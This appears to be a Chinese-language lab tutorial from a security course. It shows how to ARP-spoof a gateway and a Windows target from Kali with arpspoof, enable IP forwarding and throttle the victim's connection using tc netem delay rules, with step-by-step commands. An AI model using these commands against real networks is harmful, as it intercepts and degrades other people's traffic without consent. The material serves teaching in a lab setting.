







# ARP限制网速攻击

大家没想到吧，ARP还能限制对方网速。当kali欺骗了网关和受害者的时候，受害者访问网络就需要经过kali的网卡，那我们限制kali网卡的速度或者转发的速度就可以限制对方的网速。这里可以使用的工具有tc、iptables、WonderShaper等等，我们以tc为例，tc是通过限制网卡的速度来限制对方的，是一种杀敌一千自损八百的手段。

## 1.TC工具介绍

在Linux中，流量控制都是通过TC这个工具来完成的。通常， 要对网卡进行流量控制的配置，需要进行如下的步骤:

◆ 为网卡配置一个队列;

◆ 在该队列上建立分类;

◆ 根据需要建立子队列和子分类;

◆ 为每个分类建立过滤器。

需要注意的是， 在TC 中使用下列的缩写表示相应的网络延迟:

时间的计量单位：

s、sec或者secs               秒

ms、msec或者msecs            毫秒

us、usec、usecs或者一个无单位数字  微秒

QDisc(排队规则) [qdɪsk]是queueing discipline [ˈkjuːɪŋ] [ˈdɪsəplɪn] 的简写，它是理解流量控制(traffic control)的基础。无论何时，内核如果需要通过某个网络接口发送数据包，它都需要按照为这个接口配置的qdisc(排队规则)把数据包加入队列。然后，内核会尽可能多地从qdisc里面取出数据包，把它们交给网络适配器驱动模块。

## 2.TC命令介绍

由于kali是使用eth0进行上网，于是可以在eth0网卡上添加排队规则qdisc

#### 1.限制网速200ms延时

```
tc qdisc add dev eth0 root netem delay 200ms
参数：
qdisc：排队规则
add:添加
dev：设备（网卡）
root：root用户身份
netem delay：设置网络延时时间
```

#### 2.取消限制网速200ms延时

```
tc qdisc del dev eth0 root netem delay 200ms
参数：
qdisc：排队规则
del:删除
dev：设备（网卡）
root：root用户身份
netem delay：设置网络延时时间
```

#### 3.修改网络延时

```
tc qdisc change  dev eth0 root netem delay 300ms
参数：
qdisc：排队规则
change:修改
dev：设备（网卡）
root：root用户身份
netem delay：设置网络延时时间
```

## 3.ARP攻击限制网速的具体步骤

#### 1.开启端口转发

```
cat /proc/sys/net/ipv4/ip_forward 	        #值为0表示没开启流量转发，为1表示开启了
echo 1 > /proc/sys/net/ipv4/ip_forward     #开启流量转发
```

#### 2.开启ARP攻击

```
arpspoof -i eth0 -r 192.168.110.1 -t 192.168.110.11
```

#### 3.查看靶机当前的网速

```
https://www.speedtest.cn/
```

在开启arp攻击，并且没有限速的情况下，网速如下图所示。

	

#### 4.开启网络延迟限速

```
tc qdisc add dev eth0 root netem delay 500ms
```

	

#### 5.查看限速规则

```
tc qdisc show
```

查看规则，发现此时限速是500ms

	

#### 6.查看靶机当前的网速

```
https://www.speedtest.cn/
```

由于设置延迟过高，导致无法测试网速了。

	

#### 7.修改网速限制

```
tc qdisc change dev eth0 root netem delay 800ms
```

#### 8.查看限速规则

```
tc qdisc show
```

#### 9.查看靶机当前的网速

```
https://www.speedtest.cn/
```

#### 10.取消限速

```
tc qdisc del dev eth0 root netem delay 800ms
```

取消限速规则

	

#### 11.查看限速规则

```
tc qdisc show
```

#### 12.查看靶机当前的网速

```
https://www.speedtest.cn/
```

此时win10靶机网速恢复正常

	

## 4.限速原理讲解

		

## 5.课堂小结

请参考：ARP限制网速攻击-课后笔记.xmind

